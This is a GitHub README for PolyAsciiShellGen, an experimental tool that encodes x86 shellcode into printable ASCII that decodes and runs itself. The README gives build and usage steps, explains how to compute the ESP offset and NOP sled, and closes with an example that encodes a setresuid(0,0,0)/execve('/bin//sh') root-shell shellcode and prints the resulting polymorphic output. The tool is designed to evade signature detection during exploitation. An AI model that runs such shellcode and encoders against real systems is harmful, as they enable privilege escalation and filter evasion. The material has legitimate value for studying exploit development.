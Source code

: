 # PolyAsciiShellGen: Caezar ASCII Shellcode Generator

Full description and demonstration on this blog post: https://vincentdary.github.io/blog-posts/polyasciishellgen-caezar-ascii-shellcode-generator/index.html

  - [Build](#build)
  - [Usage](#usage)
  - [Options](#options)
  - [Result](#result)
  - [Return Value](#return-value)
  - [Exemple](#exemple)


## PolyAsciiShellGen
PolyAsciiShellGen is an experimental ASCII shellcode generator based on
the part II of the *Riley "Caezar" Eller*'s paper. The program take a classic
shellcode in entry and automates the shellcode encoding process into ASCII
caracteres and assemble an ASCII shellcode able to decode, load and
execute the original shellcode.


### Build
Clone PolyAsciiShellGen from
[my Github repository [3]](https://github.com/VincentDary/PolyAsciiShellGen)
and build it.

```text
$ git clone https://github.com/VincentDary/PolyAsciiShellGen.git
$ cd PolyAsciiShellGen
$ make && make clean
```

### Usage
```text
$ ./PolyAsciiShellGen
usage: PolyAsciiShellGen <esp offset> <nop sleed factor N * 4 NOPS> <shellcode "\xOP\xOP"...>
```

### Options
**`<esp offset>`**

The *`esp offset`* parameter is a 32 bit integer, positive or negative.
When the generated ASCII shellcode is executed it starts to add the
*`esp offset`* to ESP in order to set the register position after its code
with enough space to build the decoded shellcode as a bridge to the code of the
ASCII shellcode. This value is generaly deduct during a pre-exploitation
debugging session. If a NOP sleed is add before the decoded shellcode via the
*`NOP sleed factor`*, the *`esp offset`* value can have a margin of error
according the size of the NOP sleed use. Here the method to compute the
*`esp offset`*.

```text
 esp_offset = @shellcode_ascii_start_address - @esp_address
              + ascii_shellcode_size
              + original_shellcode_size
```

Note: the `ascii_shellcode_size` must be padded on a 32-bit boundary.

**`<nop sleed factor>`**

The *`nop sleed factor`* parameter is a 32 bit unsigned integer use as a NOP
sleed multiplier to add an extra NOP sleed before the first instructions of the
decoded shellcode in order to reliable the decoded shellcode execution. This
factor is multiplied to four NOP instructions. So if N=4, 4*4=16 NOP
instructions are added before the shellcode.

**`<shellcode>`**

The `shellcode` parameters is the shellcode to encode in escaping format
`...\xcd\x80...` .If the lenght of the shellcode is not a multiplier of four bytes, it
is padded with extra NOP bytes in order to pass an exploit code aligned on a 32-bit
boundary to the underlying ASCII shellcode generator.


### Result
PolyAsciiShellGen print the resulting ASCII shellcode on the standard output. The
ASCII charset use for the ASCII shellcode building is the following.

```text
 %_01234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-
```

To encode the original shellcode, the underlying encoder uses values generated
randomly at each execution. So, the printable shellcodes generated have a
different signatures from the original shellcode at each new generation.


### Return Value
The command returns 0 if the ASCII shellcode generation is successful or 1 if
it fails.


### Exemple
Here an example with a `setresuid(0,0,0); execve(/bin//sh,0,0)` shellcode.

```text
$ ./PolyAsciiShellGen -270  10  "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\xa4\xcd\x80\x31\xc0\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"
TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP
```
